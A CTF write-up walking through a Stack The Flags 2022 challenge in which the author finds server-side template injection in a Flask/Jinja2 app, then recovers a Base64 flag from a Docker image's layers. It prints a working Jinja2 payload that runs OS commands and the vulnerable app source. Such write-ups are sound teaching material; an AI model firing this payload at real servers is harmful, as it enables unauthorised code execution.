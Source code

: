 ```yaml
---
title: "Stack The Flags 2022 - 4 Paths of Pain (Misc)"
date: 2022-12-14T09:34:30-04:00
categories:
  - CTF
tags:
  - CTF
  - STF22
  - SSTI
  - Flask
  - Jinja2
comments: true
---
```



Recently, a few colleagues and I participated in **Stack The Flags 2022**, a CTF organised by **Govtech Singapore**. Like most CTF players, my goal was to learn a thing or two from trying to solve the challenges regardless on whether I succeed.

The CTF was 48 hours and had over 50 challenges spanning from multiple categories such as Forensics, Web, Crypto, OSINT and etc.

This is my writeup for one of the Misc challenge, **4 Paths of Pain**.

![pain.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/pain.jpg)

## 4 Paths of Pain

* Flag: ```STF22{P41n_1s_411_th3_s4m3}```
* Category: Misc
* Difficulty: Easy
* Points: 1000 (Decayed to 400 points by the end of the CTF)

---

### Inspecting the Web App


Main Page:
![index.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/index.png)


Source Code:
![sourcecode.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/sourcecode.png)

```html
<h1>I can't seem to find the defense blueprints man</h1>
<p hidden>Hey Jaga, please help us defend our village, I have left the blueprints of the secret weapon in a file - blueprint.img. It's hidden in layers so even if Pain does get it, he cant view it. </p>
<p hidden> Remember to take a look at the source code of this server! it should help you locate what you need. God speed! - Corona2019</p>
<input hidden type="button" onclick="location.href='?nopain=haha';" value="haha" />
```

The source code revealed to us that the secret weapon is in a file called 'blueprint.img'.
We also observed that there is a hidden button that points to `?nopain=haha`

![parameter.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/parameter.png)

Navigating to the URL, we see that the web application displaying the input after `?nopain=`

With this knowledge, we probe further using Postman to try and find more information about the webserver.

In the headers of the response, we see that the server is using Werkzeug 2.2.2.

![werkzeug.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/werkzeug.png)

I started to do some OSINT on Werkzeug to find any known vulnerabilities related to it. During my research, I found this [writeup][htb-doctor] by Zander Work which showcased Server-Side Template Injection (SSTI). According to Zander Work, *SSTI vulnerability is present when unsanitized input is passed to a template before it is rendered, rather than as an input to the render engine as it renders the template.* Hence, I prepared a simple payload for Jinja2 to test for SSTI vulnerability.

\{\{7*7\}\}

If the web application is vulnerable to SSTI, the expected response will be 49. I do not have a screenshot of this but I remember doing this step to confirm that this web server was truly vulnerable to SSTI.

### Exploiting SSTI Vulnerability

With that, I prepared a payload to list the files in the current directory.
![ls.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/ls.jpg)

We can see that there are 4 files with `blueprint.img` being one of them.
```
-app.py
-blueprint.img
-requirements.txt
-templates
```
Inspecting `requirements.txt` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat requirements.txt").read()}}{% endraw %}
```
```
click==8.1.3
Flask==2.2.2
itsdangerous==2.1.2
Jinja2==3.1.2
MarkupSafe==2.1.1
Werkzeug==2.2.2
```
We observed that Jinja2 was installed.

Inspecting `app.py` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat app.py").read()}}{% endraw %}
```
```python
from flask import Flask, render_template, make_response, request, render_template_string, send_file from datetime import datetime import base64 app = Flask(__name__)

@ app.route('/')

def page2():
  if request.args.get('nopain'):
  return render_template_string(request.args.get('nopain'))
  else:
    return render_template('defendthevillage.html')

@ app.route('/defendthevillagefrompain', methods=['GET'])

def page3():
  try: return send_file('./blueprint.img')
  except Exception as e:
    return str(e) if __name__ == "__main__": app.run(host="0.0.0.0", port=8086)
```
From the source code, we noticed that there is a path to `/defendthevillagefrompain`. A `GET` request to `157.245.52.169:32512/defendthevillagefrompain` will return `./blueprint.img`. We managed to download `blueprint.img` once we entered the URL in the browser.

### Analysing Blueprint.img

![blueprint.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/blueprint.png){:height="350px" width="350px"}

We found out that we could easily use 7Zip to extract and reveal the content in blueprint.img.

![7zip.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/7zip.png){:height="700px" width="700px"}

Looking at `786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json`, it seems like the creator of the challenged copied secret-message.txt from his environment into one of the container volumes.

```
...
    {
      "created": "2022-11-18T02:49:23.301698469Z",
      "created_by": "COPY secret-message.txt /usr/src/app # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "RUN /bin/sh -c rm -rf /usr/src/app/secret-message.txt # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "CMD [\"/bin/sh\" \"-c\" \"\\\"whoami\\\"\"]",
      "comment": "buildkit.dockerfile.v0",
      "empty_layer": true
    }
...

```
The log file tells us that  `secret-message.txt` is stored in the location `/usr/src/app`. While there were a few folders, this narrows down the folder we will be looking for. By browsing through the different folders, we managed to find `secret-message.txt` in `23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/layer.tar` using 7zip.

![secretmessagefound.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessagefound.png){:height="700px" width="700px"}

### Revealing the secret message... (wait a minute)

We opened `secret-message.txt` expecting to find a flag but it was just a message telling us to find the last hiding place.

![secretmessage.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessage.png){:height="350px" width="350px"}

At this point we didn't really know what to do with this information but we thought that the location looks a little familiar. We thought it could either be the name of a Github or Dockerhub Repo.

So we searched on DockerHub and at last, we found the last hiding place!

![dockerhub.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/dockerhub.png)

The description of the Docker Image - `U1RGMjJ7cDQxbl8xc180MTFfdGgzX3M0bTN9` looks like an encoded string of text.

To decode this string of text, we used the magic wand feature in CyberChef which was able to identify that the encoded string was in Base64.


![cyberchef.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/cyberchef.png)

Finally, we were able to find the flag for this challenge! We managed to use the secret weapon and defend Konoha against Pain!

![iruka.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/iruka.jpg)



[htb-doctor]: https://zanderwork.com/blog/htb-doctor/
